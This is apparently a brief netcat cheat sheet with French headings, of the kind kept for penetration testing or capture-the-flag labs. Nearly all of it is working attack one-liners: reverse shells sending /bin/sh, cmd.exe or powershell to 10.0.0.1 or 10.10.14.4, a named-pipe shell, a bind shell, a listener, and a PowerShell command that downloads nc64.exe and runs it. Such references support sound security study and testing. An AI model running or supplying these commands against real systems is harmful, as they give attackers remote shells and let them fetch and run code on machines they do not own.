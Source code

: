## netcat

## reverseshell

### selon les versions: -c remplace -e

nc 10.0.0.1 1234 -e /bin/sh
nc 10.0.0.1 1234 -e cmd.exe
nc -e /bin/sh 10.0.0.1 1234

# listener:

nc -nvlp 443

## file transfert:

alice:
nc -lnvp 10443 < lse.sh
bob:
nc IP 10443 > lse.sh

# bind shell:

nc -l -p <port> -e /bin/bash

# sans options:

victim$ mknod /tmp/backpipe p 
victim$ /bin/sh 0</tmp/backpipe | nc pentestbox 443 1>/tmp/backpipe

# nc traditional: 

/usr/bin/nc.traditional

# Windows:

powershell -c “iwr http://10.10.14.4:8000/nc64.exe -outfile c:\temp/bouf.exe”
c:\temp\nc64.exe 10.10.14.4 10443 -e powershell


# mkfifo

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

